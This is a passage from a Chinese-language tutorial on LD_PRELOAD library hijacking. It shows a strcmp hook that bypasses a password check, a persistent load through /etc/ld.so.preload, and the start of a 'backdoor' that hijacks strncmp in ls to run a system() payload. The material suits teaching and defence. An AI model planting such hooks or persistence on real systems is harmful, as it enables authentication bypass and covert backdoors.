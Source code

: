 ```
gcc -shared -fPIC hook_strcmp.c -o hook_strcmp.so
```

加载执行有三种方式：

1. 一次加载

   ```
   LD_PRELOAD=$PWD/hook_strcmp.so ./passcheck password
   ```

2. 当前终端有效

   ```
   export LD_PRELOAD=$PWD/hook_strcmp.so
   ```

3. 永久写入（一般不用这种方式）

   ```
   echo "./hook_strcmp.so" >> /etc/ld.so.preload
   ```

我们这里使用第一种方式

```
[root@vuln /tmp]# LD_PRELOAD=$PWD/hook_strcmp.so ./passcheck password
Password Correct!
[root@vuln /tmp]# LD_PRELOAD=$PWD/hook_strcmp.so ./passcheck a
Password Correct!
```

发现无论输入什么密码都是正确的。



## 4. 制作后门

当我们得知了一个系统命令所调用的库函数 后，我们可以重写指定的库函数进行劫持。这里我们以 `ls` 命令为例进行演示。

首先查看 `ls` 这一系统命令会调用哪些库函数：

```
readelf -Ws /usr/bin/ls
```

选择的是 strncmp 进行Hook

- hook_strncmp.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("id");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```
